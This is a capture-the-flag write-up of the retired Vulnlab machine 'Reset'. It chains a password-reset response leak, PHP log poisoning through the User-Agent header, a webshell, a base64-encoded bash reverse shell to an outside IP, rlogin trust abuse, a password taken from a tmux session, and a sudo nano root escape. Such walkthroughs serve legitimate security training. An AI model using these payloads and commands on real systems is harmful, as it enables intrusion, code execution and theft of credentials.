





# Vulnlab - Reset Writeup



Hello guys, I’ll be walking you through the attack vectors and findings for the retired box **Reset**. This machine starts with a password reset flaw where the new password is returned directly in the API response, so I can get in without controlling the victim’s email. From there, I’ll use log poisoning to get remote code execution, deploy a webshell, and upgrade to a proper interactive shell. I’ll move laterally using the Berkeley r-commands by creating a matching local user, then recover the `sadm` password from a live tmux session. Finally, I’ll use a `sudo nano` misconfiguration to escape to root and read the root flag.

## Recon

I started with a full port scan to see what services were exposed on the target.

```bash
nmap -p- --min-rate 10000 10.129.234.130
```

The first scan showed five open ports:

```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-03 20:24 UTC
Nmap scan report for 10.129.234.130
Host is up (0.092s latency).
Not shown: 65530 closed tcp ports (reset)

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
512/tcp open  exec
513/tcp open  login
514/tcp open  shell
```

I followed up with a version scan on the open services.

```bash
nmap -p 22,80,512-514 -sCV 10.129.234.130
```

That showed OpenSSH, Apache, and the Berkeley r-services:

```text
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
512/tcp open  exec    netkit-rsh rexecd
513/tcp open  login?
514/tcp open  shell   Netkit rshd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Based on the OpenSSH and Apache versions, the host looked like an Ubuntu 22.04-era system. The ports in the 512-514 range were clearly tied to the old Berkeley r-command family, so I kept them in mind for later.

### Website Enumeration

The site on port 80 was a simple admin login page. Basic guesses like `admin/admin` did not work, the login behavior did not clearly distinguish between a bad username and a bad password. The useful part was the password reset feature.



The “Forgot Password?” form let me test whether a username existed. When I entered `deadbeef`, it told me the account was not valid. When I tried `admin`, it accepted the username and proceeded. That meant I could enumerate users, but I still needed a way to get the reset token or any other information that would normally be sent by email.



The response headers also showed that the site was running PHP:

```text
HTTP/1.1 200 OK
Date: Tue, 03 Jun 2025 20:45:57 GMT
Server: Apache/2.4.52 (Ubuntu)
Set-Cookie: PHPSESSID=h72dhq82diroa26qcbdjqip5e9; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 4125
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

The login form also loaded as `/index.php`. A quick directory brute force with PHP extensions only found `/index.php`, `/reset_password.php`, and a redirecting `/dashboard.php`.

```bash
feroxbuster -u http://10.129.234.130 -x php
```

```text
200  /index.php
200  /reset_password.php
302  /dashboard.php => index.php
```

### Password Reset

When I submitted a reset request, the browser sent a POST to `/reset_password.php`.

If the username did not exist, the server returned an error. If the username was valid, it returned extra data.

The important detail was that the new password was included in the response body. The frontend JavaScript only displayed the timestamp, so the password leak was hidden behind the UI.

```html
<script>
    $('#resetPasswordForm').on('submit', function(e) {
        e.preventDefault();
        const username = $('#resetUsername').val();
        $.ajax({
            url: 'reset_password.php',
            method: 'POST',
            data: { username: username },
            success: function(data) {
                $('#resetMessage').removeClass('alert-danger alert-success').show();
                if (data.error) {
                    $('#resetMessage').addClass('alert-danger').text(data.error);
                } else {
                    $('#resetMessage').addClass('alert-success').html(`
                        Password reset successful!<br>
                        Timestamp: ${data.timestamp}
                    `);
                }
            },
            error: function() {
                $('#resetMessage').removeClass('alert-success').addClass('alert-danger').text('An error occurred while resetting the password.');
            }
        });
    });
</script>
```

That was enough to recover working credentials and log in. if the username was exist we can change the password of the username there is no verification in the code

we change the password of admin and be able to login as admin 

### Authenticated Site

Once authenticated, I landed on a dashboard with a log viewer. The page offered two options: `syslog` and `auth.log`.

When I clicked **View Logs**, the page sent a POST request with a file path in the body:

```http
POST /dashboard.php HTTP/1.1
Host: 10.129.234.130
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fa847n0ah4r3ea7gthb98ia0a6

file=%2Fvar%2Flog%2Fsyslog
```

The parameter looked like a file-read input, so I tried a few direct read and traversal ideas first.

## Shell as www-data

### Directory Traversal / File Read

I first tested whether I could point the parameter at another file, such as `/etc/passwd`, but that did not work. I also tried relative traversal and a few other common targets, but the page rejected those values.

I was, however, able to view some logs, including Apache logs, so the feature was not useless.



### Command Injection

I also tested whether the file parameter was being passed to a shell command under the hood.

```text
file=%2Fvar%2Flog%2fauth.log%3bid%3b
```

That did not work either. Backticks, `&`, `|`, and `$()` were all blocked, so direct command injection was not the path.

### Log Poisoning

At that point, the key clue was that my `User-Agent` header was reflected into Apache’s access log. If the dashboard used an `include`-style read instead of a plain file read, then PHP injected into the log might execute when the log was loaded.

### POC

I sent a request with PHP code in the `User-Agent` header:

```http
POST /dashboard.php HTTP/1.1
Host: 10.129.234.130
User-Agent: deadbeef <?php system('id'); ?>
Content-Type: application/x-www-form-urlencoded
Referer: http://10.129.234.130/dashboard.php
Cookie: PHPSESSID=e8km0mt0nl6tm1om9dhgd0st1j
Content-Length: 26

file=%2Fvar%2Flog%2fsyslog
```

Then I loaded the Apache access log through the dashboard.

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



That confirmed code execution through log poisoning and gave me a shell as `www-data`.

### Webshell and Reverse Shell

I’ll rep poison with a more flexible webshell:

```http
GET /dashboard.php HTTP/1.1
Host: 10.129.234.130
User-Agent: deadbeef: <?php system($_REQUEST['cmd']); ?>
Referer: http://10.129.234.130/index.php
Connection: keep-alive
Cookie: PHPSESSID=e8km0mt0nl6tm1om9dhgd0st1j
```

Then I load the poisoned log and pass a command via the `cmd` parameter:

```text
file=%2Fvar%2Flog%2Fapache2%2faccess.log&cmd=echo+YmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzkvNDQzICAgMD4mMSIK|base64+-d|bash
```

The bash reverse shell script was base64 encoded because getting a clean connection was tricky:

```bash
deadbeef@hacky$ echo 'bash  -c "bash -i >& /dev/tcp/10.10.14.79/443   0>&1"' | base64 
YmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzkvNDQzICAgMD4mMSIK
```

Then I listen with netcat and get a shell:

```bash
deadbeef@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.234.130 38646
bash: cannot set terminal process group (1080): Inappropriate ioctl for device
bash: no job control in this shell
www-data@reset:/var/www/html$ 
```

I upgrade the shell using the standard `script` trick:

```bash
www-data@reset:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@reset:/var/www/html$ ^Z
+  Stopped                 nc -lnvp 443[1]
deadbeef@hacky$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@reset:/var/www/html$ 
```

Then I read the user flag from `/home/sadm`:

```bash
www-data@reset:/home/sadm$ cat user.txt
19ba954c**
```

## Shell as sadm

### Enumeration - Web

The only web directory in `/var/www` is `html`, which has:

```bash
www-data@reset:/var/www/html$ ls
dashboard.php  index.php  private_34eee5d2  reset_password.php
```

The `private_34eee5d2` directory contains a SQLite database with the admin hash:

```bash
www-data@reset:/var/www/html$ sqlite3 private_34eee5d2/db.sqlite .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL UNIQUE,
    password_hash TEXT NOT NULL,
    is_admin INTEGER DEFAULT 0
);
INSERT INTO users VALUES(1,'admin','cca326e770bc57b4ab361962cba9a1427f895248',1);
DELETE FROM sqlite_sequence;
INSERT FROM sqlite_sequence VALUES('users',1);
COMMIT;
```

The hash cracks to whatever password I last reset it to.

### Users

There are two users with home directories in `/home`:

```bash
www-data@reset:/home$ ls
local  sadm
```

`www-data` can’t enter or list `local`. The `/etc/passwd` file confirms the users with shells:

```bash
www-data@reset:/$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
local:x:1000:1000:local:/home/local:/bin/bash
sadm:x:1001:1001:,,,:/home/sadm:/bin/bash
```

As `www-data`, I can read `sadm`:

```bash
www-data@reset:/home/sadm$ ls -la
total 36
drwxr-xr-x 4 sadm sadm 4096 Jun  4 14:57 .
drwxr-xr-x 4 root root 4096 Jun  2 11:34 ..
lrwxrwxrwx 1 sadm sadm    9 Dec  6 13:12 .bash_history -> /dev/null 
-rw-r--r-- 1 sadm sadm  220 Dec  6 13:02 .bash_logout
-rw-r--r-- 1 sadm sadm 3771 Dec  6 13:02 .bashrc
drwx------ 2 sadm sadm 4096 Jun  2 11:34 .cache
drwxrwxr-x 3 sadm sadm 4096 Jun  2 11:34 .local
-rw-r--r-- 1 sadm sadm  807 Dec  6 13:02 .profile
-rw------- 1 sadm sadm    7 Dec  6 15:49 .rhosts
-rw-r--r-- 1 root root   33 Apr 10 09:45 user.txt
```

The `.rhosts` file is interesting, but I can’t read it yet. I’ll come back to that.

### Processes

Looking at running processes, there’s an interesting one running as `sadm`:

```bash
www-data@reset:/$ ps auxww | grep sadm
sadm        1104  0.0  0.1   8764  3880 ?        Ss   Jun03   0:00 tmux new-session -d -s sadm_session
sadm        1111  0.0  0.2   8676  5452 pts/3    Ss+  Jun03   0:00 -bash
sadm       11267  0.0  0.4  17096  9432 ?        Ss   11:03   0:00 /lib/systemd/systemd --user
sadm       11268  0.0  0.1 169396  4008 ?        S    11:03   0:00 (sd-pam)
sadm       11274  0.0  0.2   8812  5616 pts/1    S+   11:03   0:00 -bash
```

There is a `tmux` session running as `sadm`. I’ll note this for later.

### r-commands

`rlogin` is configured in `/etc/hosts.equiv`:

```bash
www-data@reset:/$ cat /etc/hosts.equiv 
# /etc/hosts.equiv: list  of  hosts  and  users  that are granted "trusted" r
#                   command access to your system .
- root
- local
+ sadm
```

This says that `root` and `local` cannot login, but `sadm` can.

### rlogin

To connect with `rlogin`, I install the r-command clients with `apt install rsh-redone-client`. The clients require a password unless I’m connecting as a user with the same name as on my local system.

On my local system, I create a user named `sadm` and set a password:

```bash
deadbeef@hacky$ sudo useradd sadm
deadbeef@hacky$ sudo passwd sadm
New password:
Retype new password:
passwd: password updated successfully  
```

Now I switch to that user, and log in without a password:

```bash
deadbeef@hacky$ sudo su - sadm
su: warning: cannot change directory to /home/sadm: No such file or directory
$ rlogin 10.129.234.130
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-140-generic x86_64)
...[snip]...
sadm@reset:~$ 
```

### Recover Password

I noted earlier there was a `tmux` session running as `sadm`. Tmux allows multiple windows and splits within a single terminal session, and it lets users disconnect and reconnect without losing their state.

With a shell as `sadm`, I can see the session:

```bash
sadm@reset:~$ tmux ls
```
I can attach to this session with tmux a -t <session name>, so tmux a -t sadm_session


The green bar at the bottom is tmux. I actually have two nested tmux sessions going. The top bar is the session on Reset. The bottom bar is on my host. I have three windows currently on my session, and there’s just one on Reset. By default, the key to interact with tmux is Ctrl-a, but I typically remap mine to Ctrl-b, which works out well here as Ctrl-a will allow me to control the remote session and Ctrl-b mine.

Continuing on the box, there’s the password for sadm, “7lE2PAfVHfjz4HpE”


## Privilege Escalation

### Enumeration

`sadm` can run three commands as any user on Reset:

```bash
sadm@reset:~$ sudo -l
Matching Defaults entries for sadm on reset:
    env_reset, timestamp_timeout=-1, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, !syslog

User sadm may run the following commands on reset:
    (ALL) PASSWD: /usr/bin/nano /etc/firewall.sh
    (ALL) PASSWD: /usr/bin/tail /var/log/syslog
    (ALL) PASSWD: /usr/bin/tail /var/log/auth.log
```

### nano Escape

`nano` has the ability to run shell commands. I used sudo to open `/etc/firewall.sh` as root:

```bash
sudo nano /etc/firewall.sh
```

- `Ctrl-r` opens the read file menu.
- From there, `Ctrl-x` opens the "Execute Command" prompt.

I tried running bash, but it breaks the terminal. I need to run:

```bash
reset; bash 1>&0 2>&0
```

This resets the terminal (removing all that nano did to make it an application instead of working line to line) and then runs bash. The file descriptor redirections seem confusing—both stdout and stderr are redirected to stdin. What's happening is stdin is almost certainly the terminal, so this says to have both stdout and stderr output to that terminal device.

After running, the terminal is still a bit messed up, but there's a root shell. I run `reset` again and it makes a clear terminal.

From here I can read root.txt:

```bash
root@reset:~# cat root_279e22f8.txt 
7ad6951bcb5a2edaffd7908b013d29b0
```

## Attack Path

- **Scan the host** - identify SSH, HTTP, and the Berkeley r-command ports.
- **Enumerate the website** - discover the password reset flow and valid usernames.
- **Abuse the reset API** - recover the new password from the response body.
- **Log in to the dashboard** - reach the file viewer.
- **Poison the logs** - inject PHP through the `User-Agent` header.
- **Trigger RCE** - load the poisoned Apache log and execute `id` as `www-data`.
- **Deploy webshell** - add a `cmd` parameter for flexible execution.
- **Upgrade shell** - use `script` and `stty raw -echo` for an interactive shell.
- **Read user flag** - get `user.txt` from `/home/sadm`.
- **Move laterally** - create local `sadm` user and use `rlogin`.
- **Recover password** - find it in a live `tmux` session.
- **Escalate with sudo nano** - escape to root via nano command execution.
- **Read root flag** - complete the machine.
